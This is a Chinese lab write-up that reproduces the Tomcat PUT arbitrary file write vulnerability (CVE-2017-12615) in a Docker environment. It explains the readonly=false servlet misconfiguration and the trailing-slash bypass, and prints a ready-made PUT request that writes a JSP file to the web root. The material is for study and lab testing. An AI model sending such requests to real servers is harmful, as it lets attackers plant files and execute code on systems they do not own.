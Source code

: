 # Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

Tomcat版本：8.5.19

## 环境搭建

```
docker-compose build
docker-compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。

## 漏洞原理

参考：

- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。

## 漏洞复现

直接发送以下数据包即可在Web根目录写入shell：

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

如下：

![](01.png)
